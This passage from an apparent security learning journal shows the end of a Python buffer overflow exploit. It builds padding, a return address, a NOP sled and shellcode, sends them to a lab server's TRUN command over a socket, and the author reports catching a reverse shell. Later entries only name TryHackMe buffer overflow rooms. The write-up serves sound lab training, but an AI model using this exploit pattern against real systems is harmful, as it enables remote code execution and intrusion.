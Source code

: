 ```
"\x18\x55\xc2\x43\xf3\xdd\xe2\xa1\xd1\x2b\x8b\x7f\xb0\x91\xd6"
"\x7f\x6f\xd5\xee\x03\x85\xa6\x14\x1b\xec\xa3\x51\x9b\x1d\xde"
"\xca\x4e\x21\x4d\xea\x5a")


shellcode = "A" * 2003 + "\xbb\x11\x50\x62" + "\x90" * 32 + overflow

try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('172.16.139.133',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print "Error Connecting To Server" 
        sys.exit()
```

So we created the exploit and placed the malicious shellcode inside of it. You might notice that we also added `32` `"\x90"` to the shellcode variable. This is standard practice. The x90 byte is also known as the NOP, or no operation. It literally does nothing. However, when developing exploits, we can use it as padding. There are instances where our exploit code can interfere with our return address and not run properly. To avoid this interference, we can add some padding in-between the two items.

Now let run it.

![Image](https://imgur.com/6f9KrKX.png)

Now let check our ncat listener.

![image](https://imgur.com/XHNfRtN.png)

And boom we got shell.....very interesting

####  `Day 9`

`COMPLETING THE BUFFER OVERFLOW PREP IN TRYHACKME`

![Image](https://imgur.com/06CInhs.png)

Resources I use [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep)

####  `Day 10`

`GETTING USER IN GATEKEEPER (BUFFER OVERFLOW) IN TRYHACKME`

![Image](https://i.imgur.com/ssIdedp.png)

####  `Day 11`

`GETTING ROOT IN GATEKEEPER (BUFFER OVERFLOW) IN TRYHACKME`

![Image](https://i.imgur.com/EmFl7oW.png)
